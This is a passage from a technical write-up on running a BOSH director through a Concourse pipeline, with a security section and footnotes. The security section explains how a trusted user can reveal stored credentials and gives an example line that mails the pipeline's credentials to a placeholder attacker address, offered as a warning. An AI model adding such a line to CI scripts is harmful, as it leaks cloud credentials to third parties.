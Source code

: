 ## 4. Security

<div class="alert alert-error" role="alert">

Restrict your Concourse teams to people you trust, don't unnecessarily expose
your pipelines or publish your pipelines' configurations (`.yml` files).
Similarly, restrict access to your GitHub repo which has your director manifests
and Concourse scripts.

</div>

Our credentials are stored in our Concourse pipeline, and they can be easily
revealed by a trusted user with the following command:

```bash
fly -t nono get-pipeline -p BOSH
```

These credentials include IaaS credentials, which will allow a bad actor to spin
up multiple VMs to run, say, Bitcoin mining. A co-worker of the author whose
credentials were compromised had unauthorized AWS charges exceeding $3k.

It is also important to restrict access to the GitHub repo which contains the
scripts that are run. Although the repo does not contain credentials, it enables
the execution of commands which can reveal the credentials. For example, the
following line of code could be added to the `ci/tasks/bosh.sh` script to email
the credentials to the bad actor:

```bash
echo ${DEPLOYMENTS_YML} | mail -s "secret credentials" bad.actor@mailinator.com
```

## Footnotes

<a name="quis"><sup>[Quis custodiet?]</sup></a> "Who updates the VM [BOSH
director] that keeps the other VMs updated?" is the question, versions of which
have been asked as long ago as the days of the Roman poet Juvenal, who famously
asked, "[Quis custodiet ipsos
custodes?](https://en.wikipedia.org/wiki/Quis_custodiet_ipsos_custodes%3F)" and
as recently as this century by comic book writer Alan Moore, who phrased it,
"Who watches the Watchmen?"

<a name="how_recent"><sup>[How recent?]</sup></a>
How fresh is `bosh-deployment`? Fresh.  `bosh-deployment` is a quite
active git repo, typically updated [several times or more each
week](https://github.com/cloudfoundry/bosh-deployment/graphs/commit-activity).
It's the tool that the BOSH team, and many Cloud Foundry teams, use to keep
their BOSH directors current.

<a name="bosh_up_to_date"><sup>[Updating BOSH]</sup></a> In the early days, the
BOSH micro plugin was the mechanism to update the BOSH director. There were
several drawbacks to the micro plugin, one of which is that it forced the BOSH
CLI to have an understanding of the API for various IaaSes, breaking the Cloud
Layer abstraction model.
